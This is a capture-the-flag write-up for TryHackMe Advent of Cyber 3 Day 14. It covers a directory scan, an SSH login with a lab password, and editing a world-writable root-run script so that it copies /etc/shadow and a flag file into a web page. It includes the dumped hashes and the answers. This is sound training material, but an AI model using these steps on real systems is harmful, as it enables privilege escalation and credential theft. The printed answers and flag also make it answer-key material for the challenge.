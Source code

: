 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 14
### References
* Alpha Cyber Security. (2021). TryHackMe Advent of Cyber - Day 14 [YouTube Video]. In YouTube. https://youtu.be/NJVGTVbmWKM

## How many pages did the `dirbuster` scan find with its default word list?
* 4 pages returned a successful (HTTP 2XX status) response:
```bash
$ gobuster dir -u http://<MACHINE_IP>/ -w /usr/share/dirb/wordlists/common.txt
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 200) [Size: 363]
/index.html           (Status: 200) [Size: 169]
/server-status        (Status: 403) [Size: 278]
/warez                (Status: 200) [Size: 606]
```

**Answer**: `4`
## How many scripts do you see in the `/home/thegrinch/scripts` folder?
* The `loot.sh` script is editable by everyone:
```bash
$ ssh mcskidy@<MACHINE_IP>
mcskidy@<MACHINE_IP> password: Password1
mcskidy@ip-10-10-247-106:~$ cd /home/thegrinch/scripts
mcskidy@ip-10-10-247-106:/home/thegrinch/scripts$ ls -la
total 20
drwxr-xr-x 2 root      root      4096 Nov 11 20:03 .
drwxr-xr-x 7 thegrinch thegrinch 4096 Nov 11 19:50 ..
-rwx------ 1 root      root       286 Nov 11 20:03 check.sh
-rwx------ 1 root      root        58 Nov 11 09:00 cleanup.sh
-rwxrwxrwx 1 root      root        61 Nov 11 19:56 loot.sh
-rwx------ 1 root      root         0 Nov 11 07:58 test.sh
```

**Answer**: `4`
## What are the five characters following `$6$G` in `pepper`'s password hash?
1. Edit the `loot.sh` script to output the password hashes into the website's source code:
```bash
mcskidy@ip-10-10-247-106:/home/thegrinch/scripts$ cat loot.sh 
#!/bin/bash

ls /home/thegrinch/loot > /var/www/html/ls.html
mcskidy@ip-10-10-247-106:/home/thegrinch/scripts$ nano loot.sh 
mcskidy@ip-10-10-247-106:/home/thegrinch/scripts$ cat loot.sh 
#!/bin/bash
cat /etc/shadow > /var/www/html/ls.html
```
2. Refresh `http://<MACHINE_IP>/admin` and obtain the hashes:
```
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
lxd:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
dnsmasq:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ubuntu:!:18942:0:99999:7:::
thegrinch:$6$iiajscL7$7YgS0mCSs8ROHgS/4VP1itLix.T7onR26n4gdHFNAYnF/jVY7N4No11Yuy2RtLwXxJE3Vzl6zBdXXu5GUBJCj0:18942:0:99999:7:::
mcskidy:$6$g81UcX1e$az/mXtNiOt9tMDb6lixDN3c1yH2GhcJVlAIWYB/WYNgujmxHafZdhD91ppxB.x7RIkH9DbpS6XQxe0piA2p2L1:18942:0:99999:7:::
pepper:$6$GZUP42Y2$QYDESrTO9T517RDzR6cGXOANA/H4For7odahhn/DUdeWfEXtG9ZLHnZl4PLbfm8WF0GRB4ti9ij6w0NwBPunI/:18942:0:99999:7:::
```

**Answer**: `ZUP42`
## What is the content of the `flag.txt` file on the Grinch's user’s desktop?
1. Edit the `loot.sh` script to output the flag into the website's source code:
```bash
mcskidy@ip-10-10-247-106:/home/thegrinch/scripts$ nano loot.sh 
mcskidy@ip-10-10-247-106:/home/thegrinch/scripts$ cat loot.sh 
#!/bin/bash
cat /home/thegrinch/Desktop/flag.txt > /var/www/html/ls.html
```
2. Refresh `http://<MACHINE_IP>/admin` and obtain the flag

**Flag**: `DI3H4rdIsTheBestX-masMovie!`